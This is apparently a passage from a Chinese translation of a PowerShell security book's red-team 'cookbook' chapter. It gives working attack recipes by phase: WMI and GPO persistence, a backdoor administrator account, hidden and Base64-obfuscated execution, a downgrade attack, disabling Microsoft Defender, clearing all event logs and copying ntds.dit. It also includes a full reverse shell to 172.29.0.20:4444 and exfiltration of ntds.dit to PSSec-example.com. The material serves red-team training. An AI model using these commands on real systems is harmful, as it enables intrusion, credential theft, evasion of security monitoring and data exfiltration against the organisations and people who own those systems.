$filter = Set-WmiInstance -Class __EventFilter -Namespace "root\subscription" -Arguments @{name='WMIPersistenceFilter';EventNameSpace='root\CimV2';QueryLanguage="WQL";Query="SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_LocalTime' AND TargetInstance.Hour = 07 AND TargetInstance.Minute = 00 GROUP WITHIN 60"};
```

在这个示例中，已经创建了`WMIPersistenceFilter`事件过滤器。为了建立持久性，使用一个定期触发的事件是非常有用的。因此，在此示例中，事件将在系统时间为*07:00*时触发。

接下来，创建一个 WMI 命令行事件消费者。此命令旨在每当事件过滤器返回数据时执行：

```
$consumer = Set-WmiInstance -Namespace "root\subscription" -Class 'CommandLineEventConsumer' -Arguments @{ name='WMIPersistenceConsumer';CommandLineTemplate="$($Env:SystemRoot)\System32\WindowsPowerShell\v1.0\powershell.exe -ExecutionPolicy Bypass -File C:\windows\system32\HelloWorld.ps1";RunInteractively='false'};
```

在我们的示例中，消费者被称为`WMIPersistenceConsumer`，它的配置是绕过执行策略并运行`C:\windows\system32\HelloWorld.ps1`脚本。

最后但同样重要的是，我们需要将它们*绑定*在一起——即，过滤器和消费者：

```
Set-WmiInstance -Namespace "root\subscription" -Class __FilterToConsumerBinding -Arguments @{Filter=$filter;Consumer=$consumer}
```

现在绑定已经创建，PowerShell 脚本将每天早上 7:00 执行。

### 使用组策略对象建立持久性

你已攻破了 DC，并希望通过**组策略对象**（**GPOs**）建立持久性。这样做的好处是，GPO 会反复应用到所有已配置的系统。如果 GPO 没有被删除或修改，你的 payload 将在成千上万的系统上始终执行。

#### 解决方案

你需要创建一个新的 GPO，在启动时运行你的 PowerShell 脚本或命令。这可以通过**组策略管理控制台**（**GPMC**）或 PowerShell 来完成。在这个示例中，我们使用 PowerShell 来创建 GPO：

```
$gpo = New-GPO -Name "PersistentScript"
Set-GPRegistryValue -Name "PersistentScript" -Key "HKLM\Software\Policies\Microsoft\Windows\CurrentVersion\Run" -ValueName "PersistentScript" -Type String -Value "powershell.exe -ExecutionPolicy Bypass -File \\Dc01\sysvol\PSSec.local\scripts\HelloWorld.ps1"
```

在这个示例中，我们创建了一个名为`PersistentScript`的 GPO。接下来，我们在启动文件夹中添加一个组策略注册表值，并将其配置为每次系统启动时通过 PowerShell（使用`ExecutionPolicy Bypass`参数）运行我们的脚本。这样，脚本将在组策略应用的每个系统启动时运行，无论执行策略如何配置。

最后，刚创建的 GPO 只需要应用到一个或多个目标系统。这可以通过`New-GPLink` cmdlet 来完成：

```
> New-GPLink -Name "PersistentScript" -Target "DC=domain,DC=local"
```

修改现有的 GPO 也是攻击者可能使用的选项，尤其是在权限不够严格的情况下。虽然新创建的 GPO 可能引起怀疑，但修改现有的 GPO 可能会避开蓝队的监控：

```
$gpo = Get-GPO -Name "PersistentScript"
Set-GPRegistryValue -Name "PersistentScript" -Key "HKLM\Software\Policies\Microsoft\Windows\CurrentVersion\Run" -ValueName "PersistentScript" -Type String -Value "powershell.exe -ExecutionPolicy Bypass -File \\Dc01\sysvol\PSSec.local\scripts\HelloWorld-Modified.ps1"
```

请注意，使用 GPO 作为建立持久性的手段，仅在你拥有适当的权限时有效。

### 创建一个新的用户帐户并将其添加到一个组中

你想创建一个新的用户帐户并将其添加到一个组中。

#### 解决方案

有多种方法可以实现你的目标。例如，你可以结合使用 `New-LocalUser` 和 `Add-LocalGroupMember` 来创建一个新用户并将其添加到现有组中：

```
> $pass = ConvertTo-SecureString "Hacked!123" -AsPlainText -Force
> New-LocalUser -Name hacker -Password $pass
> Add-LocalGroupMember -Group Administrators -Member hacker
```

另外，你可以使用 `net.exe` 来成功实现：

```
> net user hacker Hacked!123 /add /Y
> net localgroup administrators hacker /add
```

## 防御规避

通常，红队成员希望避免被检测到，并尽可能隐藏和混淆他们的踪迹。这一阶段被称为 **防御规避**。

### 避免在桌面上创建窗口

你想在执行 PowerShell 命令和脚本时避免在用户桌面上创建 PowerShell 窗口。

#### 解决方案

你可以通过使用 `-w hidden` 来设置 `WindowStyle`，它是 `-WindowStyle` 的简写：

```
> powershell.exe -w hidden -c <command>
> powershell.exe -WindowStyle hidden -c <command>
```

### 使用 powershell.exe 执行 Base64 编码的命令

你想将一个 Base64 编码的命令作为命令行参数提供。

#### 解决方案

可以使用以下语法在 PowerShell 中执行 Base64 编码的字符串：

```
> powershell.exe -e "<Base64 string>"
```

`-e` 参数（`-EncodedCommand` 的简写）允许你直接将 Base64 编码的命令作为命令行参数提供。

只需将 `<Base64 string>` 替换为你的 Base64 编码命令，如以下示例所示：

```
> powershell.exe -e "VwByAGkAdABlAC0ASABvAHMAdAAgACcASABlAGwAbABvACAAVwBvAHIAbABkACEAJwA="
```

在这个例子中，Base64 编码的字符串将在 PowerShell 中执行，并且 **“Hello World!”** 会被写入命令行。这是因为这个 Base64 字符串转换为 `"Write-Host '****Hello World!'"`。

### 将字符串转换为 Base64 字符串

你想将一个字符串转换为 Base64 字符串，以混淆你的命令。

#### 解决方案

你可以使用以下代码片段将字符串转换为 Base64 字符串；只需将 `<text>` 替换为你想要转换的字符串：

```
> [Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes("<text>"))
```

以下示例将 `"Write-Host 'Hello World!'"` 字符串转换为 Base64 字符串：

```
> [Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes("Write-Host 'Hello World!'"))
```

在前面的示例中，我们将一个 Unicode 字符串转换为 Base64 字符串。也可以将一个 ASCII 字符串进行转换：

```
> [Convert]::ToBase64String([System.Text.Encoding]::ASCII.GetBytes("Write-Host 'Hello World!'"))
```

### 将 Base64 字符串转换为可读字符串

你想将 Base64 字符串转换回可读格式。

#### 解决方案

你可以使用以下代码片段将 Base64 字符串转换回可读的字符串。将 `"<Base64 string>"` 替换为实际的 Base64 字符串：

```
> [System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String("<Base64 string>"))
```

以下示例演示了如何将 `"VwByAGkAdABlAC0ASABvAHMAdAAgACcASABlAGwAbABvACAAVwBvAHIAbABkACEAJwA="` 字符串转换回可读格式：

```
> [System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String("VwByAGkAdABlAC0ASABvAHMAdAAgACcASABlAGwAbABvACAAVwBv AHIAbABkACEAJwA="))
```

这将得到 `"Write-Host 'Hello** **World!'"` 字符串。

通常，ASCII 字符串会被编码成 Base64 字符串。如果你使用 Unicode 解码该字符串，你将无法获得期望的输出，正如下图所示：



图 8.2 – 如果你使用了不正确的格式，将会得到损坏的输出

使用以下命令将 Base64 字符串转换回 ASCII 字符串：

```
> [System.Text.Encoding]::ASCII.GetString([System.Convert]::FromBase64String("V3JpdGUtSG9zdCAnSGVsbG8gV29ybGQhJw=="))
```

这也将导致`"Write-Host 'Hello** **World!'"` 字符串。

### 执行降级攻击

你想绕过新版本 PowerShell 中引入的安全机制，如事件日志，因此你想进行降级攻击。

#### 解决方案

通过在运行`powershell.exe`时指定 PowerShell 的版本号，可以执行降级攻击：

```
> powershell.exe -version 2 –command <command>
```

如果指定的版本已安装，则命令将在使用过时的二进制文件时运行，这意味着仅会应用已在该版本中引入的安全功能。

如果你尝试运行`powershell.exe -version 2`并且收到类似以下代码片段的错误消息，表示缺少 .NET Framework 2.0 版本，这意味着 .NET Framework 2.0 尚未安装在系统中：

```
> powershell.exe -version 2
Version v2.0.50727 of the .NET Framework is not installed and it is required to run version 2 of Windows PowerShell.
```

.NET Framework 2.0 可以手动安装。要评估 PowerShell 版本 2 是否启用或禁用，请运行以下命令：

```
> Get-WindowsOptionalFeature -Online | Where-Object {$_.FeatureName -match "PowerShellv2"}
FeatureName : MicrosoftWindowsPowerShellV2Root
State       : Enabled
FeatureName : MicrosoftWindowsPowerShellV2
State       : Enabled
```

在此示例中，似乎 PowerShell 版本 2 仍然在此机器上启用。因此，如果缺少的 .NET Framework 2.0 被安装，该系统将容易受到降级攻击。

### 禁用 Microsoft Defender

你想禁用 Microsoft Defender 及其大多数安全功能。

#### 解决方案

你可以使用`Set-MpPreference`来实现你的目标：

```
> Set-MpPreference -DisableRealtimeMonitoring $true -DisableIntrusionPreventionSystem $true -DisableIOAVProtection $true -DisableScriptScanning $true -EnableNetworkProtection AuditMode -MAPSReporting Disabled -SubmitSamplesConsent NeverSend -EnableControlledFolderAccess Disabled -Force
```

此命令禁用实时监控、入侵防御系统、`Internet Outbound AntiVirus`（**IOAV**）保护和脚本扫描。它将网络保护设置为仅审核模式（因此不再强制执行），禁用`Microsoft Active Protection Service`（**MAPS**）报告，将同意设置为永不发送样本，并禁用受控文件夹访问。`-Force` 参数确保在没有额外提示的情况下应用这些更改。

如果你想篡改本示例中未显示的其他功能，请参阅`Set-MpPreference`文档：https://learn.microsoft.com/en-us/powershell/module/defender/set-mppreference。

### 清除日志

无论目标系统上部署的是哪个 PowerShell 版本，你都希望清除所有事件日志。

#### 解决方案

你可以使用以下代码片段清除所有事件日志：

```
Get-WinEvent -ListLog * | foreach {
    try {       [System.Diagnostics.Eventing.Reader.EventLogSession]::GlobalSession.ClearLog($_.LogName) }
    catch {}
}
```

## 凭证访问

凭证访问阶段是关于窃取凭证（例如用户名和密码）的。这些凭证稍后可以用来进行横向移动并在其他目标上进行身份验证。

### 导出 ntds.dit 文件

你想要窃取包含所有身份和哈希值的`ntds.dit`文件，这些信息存在于 Active Directory 中。

#### 解决方案

由于`ntds.dit`文件被 Active Directory 不断使用并因此被锁定，你需要找到访问`ntds.dit`的方法。一种方法是创建影像副本，创建符号链接，并从中提取该文件：

```
$ShadowCopy = Invoke-CimMethod -ClassName "Win32_ShadowCopy" -Namespace "root\cimv2" -MethodName "Create" -Arguments @{Volume="C:\"}
$ShadowCopyPath = (Get-CimInstance -ClassName Win32_ShadowCopy | Where-Object { $_.ID -eq $ShadowCopy.ShadowID }).DeviceObject + "\\"
cmd /c mklink /d C:\shadowcopy "$ShadowCopyPath"
```

现在你可以无错误地访问`ntds.dit`文件，并提取它或继续提取身份。在这个示例中，我们将其复制到`C:\tmp`以供进一步使用：

```
> Copy-Item "C:\shadowcopy\Windows\NTDS\ntds.dit" -Destination "C:\tmp"
```

一旦完成此操作，你可以删除符号链接并继续进行渗透测试：

```
> (Get-Item C:\shadowcopy).Delete()
```

## 发现阶段

发现阶段类似于侦察阶段：其目标是收集尽可能多的关于潜在目标的信息。发现阶段通常发生在红队员已获得系统访问权限并规划下一步时。

### 查找当前登录的用户

你想要查找当前登录的用户，并显示他们的用户名和域名（如果是本地账户，则显示计算机名）。

#### 解决方案

为了实现你的目标，你可以使用`whoami`命令：

```
> whoami
```

### 枚举用户（本地和域）

你想要查找当前系统或当前域中存在的用户账户。

#### 解决方案

根据你的目标，有多种方法可以枚举用户。

你可以使用 WMI/CIM 枚举所有用户，无论他们是本地用户还是域用户：

```
> Get-CimInstance -ClassName Win32_UserAccount
```

为了仅枚举本地用户，你可以使用`Get-LocalUser`或`net users`：

```
> Get-LocalUser
> net users
```

有多种方法仅枚举域用户。如果存在`ActiveDirectory`模块，你可以使用`Get-ADUser`：

```
> Get-ADUser
```

但在大多数情况下，`ActiveDirectory`模块不会存在，所以你可以利用`adsisearcher`枚举所有域用户：

```
$domain = Get-WmiObject -Namespace root\cimv2 -Class Win32_ComputerSystem | Select-Object -ExpandProperty Domain
$filter = "(sAMAccountType=805306368)"
$searcher = [adsisearcher]"(&(objectCategory=User)$filter)"
$searcher.SearchRoot = "LDAP://$domain"
$searcher.FindAll() | ForEach-Object {$_.GetDirectoryEntry().Name}
```

也可以使用`net`来枚举所有域用户：

```
> net user /domain
```

### 枚举组（本地和域）

你想要查找存在的本地组或域组。

#### 解决方案

根据你是想枚举本地组还是域组，有多种方法可以实现你的目标。

你可以使用 WMI/CIM 枚举所有组，无论它们是本地组还是域组：

```
> Get-CimInstance -ClassName Win32_Group
```

为了仅枚举本地组，你可以使用`Get-LocalGroup`或`net localgroups`：

```
> Get-LocalGroup
> net localgroups
```

有多种方法仅枚举域用户。如果存在`ActiveDirectory`模块，你可以使用`Get-ADGroup`：

```
> Get-ADGroup
```

由于大多数情况下并非如此，你也可以利用`net`来查找存在的域组：

```
> net group /domain
```

你也可以使用`adsisearcher`枚举所有域组，如下所示的代码片段所示：

```
$domain = Get-WmiObject -Namespace root\cimv2 -Class Win32_ComputerSystem | Select-Object -ExpandProperty Domain
$searcher = [adsisearcher]"(&(objectCategory=group))"
$searcher.SearchRoot = "LDAP://$domain"
$searcher.FindAll() | ForEach-Object {$_.GetDirectoryEntry().Name}
```

### 获取当前系统的信息

你想要获取当前系统的信息。

#### 解决方案

使用`hostname`命令，你可以查找当前机器的主机名：

```
> hostname
```

通过使用`systeminfo`命令，你可以检索当前机器的详细系统配置信息：

```
> systeminfo
```

`Systeminfo` 让你收集有关当前系统的各种信息，如硬件属性、当前操作系统版本、主机名、BIOS 版本、启动时间等有价值的信息。

### 枚举与网络相关的信息

你想了解当前系统的网络相关信息。它的 IP 地址是什么？还有哪些其他设备与当前机器连接？

#### 解决方案

你可以使用以下命令来枚举与网络相关的信息：

```
> ipconfig /all
```

`ipconfig /all` 显示有关系统上所有网络接口的详细信息（包括 IP 地址、子网掩码、默认网关、DNS 服务器等）：

```
> Get-NetAdapter | fl
```

使用`Get-NetAdapter`，你可以检索网络适配器及其属性的信息，如接口索引、名称、MAC 地址等：

```
> route print
```

`route print` 显示系统的路由表，展示网络目标、相关的网关地址以及接口信息：

```
> arp -A
```

`arp -a` 显示**地址解析协议**（**ARP**）缓存，其中包含将 IP 地址映射到本地网络设备的 MAC 地址。通过这样做，你可以轻松发现潜在的横向移动目标。

### 枚举域信息

你想枚举当前域并了解更多关于林和域与林的信任关系的信息。

#### 解决方案

你可以利用`System.DirectoryServices.ActiveDirectory`命名空间来枚举当前域和林：

```
> [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
```

`GetCurrentDomain()` 命令检索 Active Directory 中的当前域对象，并返回域名、域控制器以及其他属性的信息：

```
> ([System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()).GetAllTrustRelationships()
```

`GetCurrentDomain()).GetAllTrustRelationships()` 命令检索当前域在 Active Directory 中建立的所有信任关系，并提供受信任域及其属性的信息：

```
> [System.DirectoryServices.ActiveDirectory.Forest]::GetCurrentForest()
```

`GetCurrentForest()` 命令检索 Active Directory 中的当前林对象，并返回林名、域树和其他属性的信息：

```
> ([System.DirectoryServices.ActiveDirectory.Forest]::GetForest((New-Object System.DirectoryServices.ActiveDirectory.DirectoryContext('Forest', 'forest-of-interest.local')))).GetAllTrustRelationships()
```

前面的命令检索特定林中所有的信任关系，并提供有关该林内受信任域及其属性的信息。

### 枚举域控制器（DC）

你想枚举一个域的 DC，并找出当前认证会话使用的是哪个 DC。

#### 解决方案

你可以使用`nltest`查询并列出指定域中所有可用的 DC：

```
> nltest /dclist:PSSEC.local
```

要检索并显示当前域中所有 DC 的列表，请使用以下命令：

```
> net group "domain controllers" /domain
```

要确定用于验证当前会话的 DC，请运行以下命令：

```
> nltest /dsgetdc:PSSEC.local
```

### 列出已安装的防病毒（AV）产品

你想列出当前系统上安装的所有 AV 产品。

#### 解决方案

你可以使用 WMI/CIM 枚举所有已安装的 AV 产品：

```
> Get-CimInstance -Namespace root/SecurityCenter2 -ClassName AntiVirusProduct
```

## 横向移动

一旦获得初步控制，红队通常会尝试从一个主机横向移动到另一个主机，探索并利用网络中的其他目标。横向移动使攻击者能够探索网络、提升权限、访问有价值的资源，并最终控制关键系统或数据。

### 在远程机器上执行单个命令或二进制文件

你想在远程机器上执行单个命令或二进制文件。

#### 解决方案

要在远程（或本地）机器上执行单个命令或二进制文件，可以利用`Invoke-Command`：

```
> Invoke-Command <ip address or hostname> {<scriptblock/binary>}
```

以下示例展示了如何在远程主机`PSSec-PC01`上执行`Get-Process` cmdlet 和`mimikatz.exe`二进制文件：

```
> Invoke-Command PSSec-PC01 {Get-Process}
> Invoke-Command PSSec-PC01 {C:\tmp\mimikatz.exe}
```

如果你想对一个 IP 地址使用`Invoke-Command`，确保远程主机的 IP 已出现在`TrustedHosts`中，并且已配置为远程访问。

### 启动远程交互式 PowerShell 会话

你想启动一个远程 PowerShell 会话，在该会话中你可以交互式地运行 PowerShell 命令。

#### 解决方案

你可以使用`Enter-PSSession`来启动一个交互式远程 PowerShell 会话：

```
Enter-PSSession <ip address or hostname>
```

在这种情况下，我们将建立到远程主机`PSSec-PC01`的 PowerShell 会话：

```
> Enter-PSSession PSSec-PC01
```

## 命令与控制（C2）

在这个阶段，红队员正在尝试与受害主机进行通信以控制它们。

### 打开反向 Shell

你想在远程系统上打开一个反向 Shell。

反向 Shell 是红队员用来建立连接到远程系统的 Shell，无需发起远程会话。在反向 Shell 的情况下，通常会在受害者系统上存储一个有效负载。一旦该有效负载被执行，受害者会建立到由红队员指定的服务器的连接，通常在该服务器上有一个监听器等待传入的连接。

#### 解决方案

要通过 PowerShell 重现此操作，首先在 C2 服务器上创建并启动监听器：

```
$listener = New-Object System.Net.Sockets.TcpListener([System.Net.IPAddress]::Any, 4444)
$listener.Start()
$client = $listener.AcceptTcpClient()
```

一旦监听器启动，它会等待连接，并立即接受连接，并将会话存储在`$****client`变量中。

让**受害者机器**执行你的有效负载。可能会是这样的形式：

```
$client = New-Object System.Net.Sockets.TcpClient
$client.Connect("172.29.0.20", 4444)
$stream = $client.GetStream()
$writer = New-Object System.IO.StreamWriter($stream)
$reader = New-Object System.IO.StreamReader($stream)
while($true) {
    $data = ""
    while($stream.DataAvailable) {
        $bytes = New-Object Byte[] 1024
        $count = $stream.Read($bytes, 0, 1024)
        $data += [System.Text.Encoding]::ASCII.GetString($bytes, 0, $count)
    }
    if ($data) {
        Invoke-Expression $data
        $data = ""
    }
}
$writer.Close()
$reader.Close()
$client.Close()
```

这段代码创建一个新的 TCP 套接字，连接到`172.29.0.20` IP 地址上的`4444`端口，一旦连接成功，它会等待输入。客户端现在可以读取传入的命令或写入命令行。

再次，在 C2 服务器上，你现在可以通过流发送命令：

```
$stream = $client.GetStream()
$bytes = [System.Text.Encoding]::ASCII.GetBytes("Write-Host 'Hello world!'")
$stream.Write($bytes, 0, $bytes.Length)
$stream.Flush()
```

一旦需要终止连接，只需从 C2 服务器发送以下命令：

```
$client.Close()
```

你可以在本章的 GitHub 仓库中找到这段代码：

+   客户端：[`github.com/PacktPublishing/PowerShell-Automation-and-Scripting-for-Cybersecurity/blob/master/Chapter08/RevShell_Client.ps1`](https://github.com/PacktPublishing/PowerShell-Automation-and-Scripting-for-Cybersecurity/blob/master/Chapter08/RevShell_Client.ps1)

+   服务器：[`github.com/PacktPublishing/PowerShell-Automation-and-Scripting-for-Cybersecurity/blob/master/Chapter08/RevShell_Server.ps1`](https://github.com/PacktPublishing/PowerShell-Automation-and-Scripting-for-Cybersecurity/blob/master/Chapter08/RevShell_Server.ps1)

当然，也有一些工具，如 PowerShell Empire 和 Metasploit，已经有模块可以自动生成有效负载并打开反向 shell。

## 导出

在导出阶段，红队员尝试从受害者的网络中窃取并导出数据。

### 导出文件并将其上传到 Web 服务器

你想要导出一个文件的内容并将其上传到 Web 服务器。

#### 解决方案

你可以通过读取目标文件的字节，将它们转换为`Base64`字符串，并使用`Invoke-WebRequest`将其上传到 Web 服务器来实现目标：

```
> $FileContent = [System.Convert]::ToBase64String([System.IO.File]::ReadAllBytes("C:\shadowcopy\Windows\NTDS\ntds.dit"))
> Invoke-WebRequest -uri http://PSSec-example.com/upload -Method POST -Body $FileContent
```

在这个例子中，我们将之前提取的 Base64 编码的`ntds.dit`文件作为影像副本上传到`http://PSSec-example.com/upload`（该网址并不存在，我们只是为了这个示例虚构的）。

也可以使用`System.NET.WebClient`类来提取和上传文件。以下代码片段展示了如何实现这一目标：

```
> $FileToUpload = "C:\shadowcopy\Windows\NTDS\ntds.dit"
> (New-Object System.NET.WebClient).UploadFile("ftp://PSSec-example.com/ntds.dit, $FileToUpload)
```

## 影响

影响阶段的配方旨在引发混乱；红队员试图中断、破坏或操控系统或数据。

### 停止服务

你想要停止一个服务。

#### 解决方案

为此，你可以使用`Stop-Service` cmdlet：

```
> Stop-Service -Name Spooler -Force
```

如果执行该命令，之前的命令将停止`Spooler`服务。使用`-Force`参数时，服务将会在没有确认提示的情况下被强制停止。

### 关闭系统

你想要关闭系统。

#### 解决方案

你可以通过多种方法来实现你的目标。其中一种方法是使用`Stop-Computer` cmdlet：

```
> Stop-Computer -ComputerName localhost
```

使用`-ComputerName`参数，你可以指定是否要关闭本地计算机或远程主机。

你也可以使用`shutdown`命令：

```
> shutdown /s /t 0
```

`/s`参数表示系统将关闭。`/t`参数表示命令执行前会经过多少秒。在此案例中，系统会立即关闭。

# 总结

在本章中，你学习了攻击的不同阶段。你了解到了一些常见的 PowerShell 红队工具，并获得了一本红队食谱，可以帮助你在下次红队演习中使用。

这本红队食谱包含了许多有用的代码片段，帮助你了解使用`powershell.exe`时的一些重要选项，如何使用 Base64 进行混淆，如何下载文件，以及如何只在内存中执行脚本。它还提醒你如何在远程机器上执行命令，以及如何打开会话。

我们查看了如何使用 PowerShell 建立持久性以及如何执行降级攻击的几种选项。你还复习了内存注入的工作原理，以及如何在没有任何常见红队工具的情况下打开反向 shell。最后，你学会了如何清除日志。

现在我们已经探讨了各种红队任务和方案，在下一章中，我们将探讨蓝队和信息安全从业者的任务和方案。

# 进一步阅读

如果你想探索本章中提到的某些话题，可以查看以下资源：

**滥用 WMI 建立持久性异步无文件后门**：

+   https://www.blackhat.com/docs/us-15/materials/us-15-Graeber-Abusing-Windows-Management-Instrumentation-WMI-To-Build-A-Persistent%20Asynchronous-And-Fileless-Backdoor-wp.pdf

+   https://www.blackhat.com/docs/us-15/materials/us-15-Graeber-Abusing-Windows-Management-Instrumentation-WMI-To-Build-A-Persistent%20Asynchronous-And-Fileless-Backdoor.pdf

`New-GPLink`：

+   https://learn.microsoft.com/en-us/powershell/module/grouppolicy/new-gplink

`PowerUpSQL`：

+   https://github.com/NetSPI/PowerUpSQL/wiki/PowerUpSQL-Cheat-Sheet

+   https://github.com/NetSPI/PowerUpSQL/wiki

你可以在 GitHub 仓库的*第八章*中找到本章提到的所有链接，无需手动输入每个链接：[`github.com/PacktPublishing/PowerShell-Automation-and-Scripting-for-Cybersecurity/blob/master/Chapter08/Links.md`](https://github.com/PacktPublishing/PowerShell-Automation-and-Scripting-for-Cybersecurity/blob/master/Chapter08/Links.md)。
